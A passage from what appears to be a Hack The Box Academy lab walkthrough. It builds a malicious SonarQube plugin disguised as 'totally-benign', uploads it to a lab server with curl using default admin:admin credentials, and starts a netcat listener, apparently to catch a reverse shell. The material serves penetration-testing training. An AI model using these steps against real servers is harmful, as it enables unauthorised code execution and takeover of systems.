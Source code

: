 ```
─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~/pwnrqube/totally-benign-plugin]
└──╼ [★]$ mvn clean package
[INFO] Scanning for projects...
Downloading from central: https://repo.maven.apache.org/maven2/org/sonarsource/sonar-packaging-maven-plugin/sonar-packaging-maven-plugin/1.18.0.372/sonar-packaging-maven-plugin-1.18.0.372.pom

<SNIP>
[INFO] -------------------------------------------------------
[INFO] Plugin definition in update center
[INFO]     Key: benign
[INFO]     Name: benign
[INFO]     Description: Totally benign plugin

<SNIP>

[INFO] -------------------------------------------------------
[INFO] Building jar: /home/htb-ac-1008/pwnrqube/totally-benign-plugin/target/totally-benign-plugin-1.0.jar
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
```

Once students have completed the build process, they will utilize `curl` to upload the malicious package to the spawned target.

Code: shell

```shell
curl --user admin:admin -X POST -F file=@target/totally-benign-plugin-1.0.jar http://sonarqube.inlanefreight.local/api/updatecenter/upload
```

```
┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~/pwnrqube/totally-benign-plugin]
└──╼ [★]$ curl --user admin:admin -X POST -F file=@target/totally-benign-plugin-1.0.jar http://sonarqube.inlanefreight.local/api/updatecenter/upload
```

Subsequently, students need to open a new terminal tab where they will start a netcat listener on port 1337.

Code: shell

```shell
nc -nvlp 1337
```

```
┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~]
└──╼ [★]$ nc -nvlp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
```
